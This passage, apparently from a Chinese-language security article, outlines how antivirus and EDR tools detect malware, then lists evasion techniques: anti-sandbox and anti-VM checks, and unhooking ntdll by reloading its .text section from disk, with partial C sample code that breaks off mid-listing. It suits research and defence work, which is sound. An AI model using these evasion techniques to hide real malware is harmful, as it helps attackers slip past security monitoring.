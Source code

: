   * Sandbox：沙箱运行观察判断行为是否恶意

  * 子进程/线程创建：例如监控Cmd.exe、Powershell.exe

  * 敏感高危操作：修改注册表、添加用户、添加系统服务、添加计划任务、提权、获取凭证、截图等等….

  * 敏感目录读写：注册表、自启动目录

  * 进程链检测：监控父子进程间关系判断是否异常，例如word.exe—powershell.exe

  * 代码注入检测：例如远程线程注入、DLL注入等等

  * 网络通信：监控网络流量，分析可能的C2流量

  * API调用：Hook 常见 Windows API

  

### 二、规避技巧

  * Anti sandbox：反沙箱

    * 使用质数运算延迟执行

    * 检测系统开机时间是否大于某个设定值

    * 检测物理内存是否大于4G

    * 检测CPU核心数是否大于4

    * 检测文件名是否修改

    * 检测磁盘大小是否大于100G

    * 判断是否有参数代入

  * Anti VM：反虚拟机

    * 检测进程名

    * 检测注册表

    * 检测磁盘中文件

如图：

![]()

  

  

  * Unhook：从磁盘加载ntdll

通过读取磁盘上ntdll.dll的.text节，覆盖内存当中的ntdll.dll的.text节，达到脱钩的效果

![]()

  

  

  

示例代码：

    *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     *       HANDLE process = GetCurrentProcess();  MODULEINFO mi = {};  HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));  LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;  HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);  HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);  LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);  
      PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;  PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);  